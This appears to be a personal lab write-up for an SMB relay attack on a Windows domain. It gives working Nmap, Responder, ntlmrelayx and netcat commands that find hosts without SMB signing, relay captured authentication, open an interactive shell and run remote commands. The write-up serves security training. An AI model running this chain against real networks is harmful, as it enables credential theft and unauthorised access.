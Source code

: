 ## SMB Relay Attacks Lab

### Idenitfy Hosts with Nmap
- Run Nmap `nmap --script=smb2-security-mode.nse -p445 <DC IP>`
- Use `-Pn` to skip ping if it's blocked

  ![image](https://github.com/user-attachments/assets/9eba0cbf-a8f7-47a9-96ba-230cb12a9ffa)

- DC has message signing enabed and required
- Can't relay to DC, womp womp
- Sweep the network with `0/24`
- Both workstations have SMB signing enabled but not required, what we want

  ![image](https://github.com/user-attachments/assets/7fc5a7d5-4683-484c-bf07-61e58b83b15c)

  ![image](https://github.com/user-attachments/assets/4274f204-79a0-4123-b5d7-45f259d77ff8)

- Add workstation IPs to targets.txt

### Responder
- Change the config `sudo vim /etc/responder/Responder.conf` to turn off SMB and HTTP
- Run responder `sudo responder -I eth0 -dwv`

### Run SMB Relay
- Run SMB Relay `ntlmrelayx.py -tf targets.txt -smb2support -i`

### Event
- Point vicitim on domain to attacker by navigating to `\\<IP>` in File Explorer`

### Bind to Shell
- SMB Relay successfuly authenticates to other machine

  ![image](https://github.com/user-attachments/assets/e02a981c-bd4e-4c81-bd76-fd3dec085601)

- Use netcat: `nc 127.0.0.1 11000` to bind to port

  ![image](https://github.com/user-attachments/assets/90145aff-6e76-4244-8dc4-adc7953803c1)

### PoC
- Run SMB Relay `ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`

  ![Screenshot 2025-02-02 215254](https://github.com/user-attachments/assets/0f613f24-fffe-4030-bf73-cb565078984a)
